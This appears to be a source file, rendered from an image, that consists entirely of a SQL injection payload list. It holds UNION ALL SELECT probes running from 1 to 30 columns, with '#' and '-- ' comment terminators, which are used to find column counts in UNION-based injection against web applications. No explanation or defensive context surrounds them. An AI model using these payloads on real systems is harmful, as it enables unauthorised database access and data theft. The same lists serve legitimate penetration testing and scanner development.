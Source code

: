 ```
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
 UNION ALL SELECT 1#
 UNION ALL SELECT 1,2#
 UNION ALL SELECT 1,2,3#
 UNION ALL SELECT 1,2,3,4#
 UNION ALL SELECT 1,2,3,4,5#
 UNION ALL SELECT 1,2,3,4,5,6#
 UNION ALL SELECT 1,2,3,4,5,6,7#
 UNION ALL SELECT 1,2,3,4,5,6,7,8#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#
 UNION ALL SELECT 1-- 
 UNION ALL SELECT 1,2-- 
 UNION ALL SELECT 1,2,3-- 
 UNION ALL SELECT 1,2,3,4-- 
 UNION ALL SELECT 1,2,3,4,5-- 
 UNION ALL SELECT 1,2,3,4,5,6-- 
 UNION ALL SELECT 1,2,3,4,5,6,7-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29-- 
```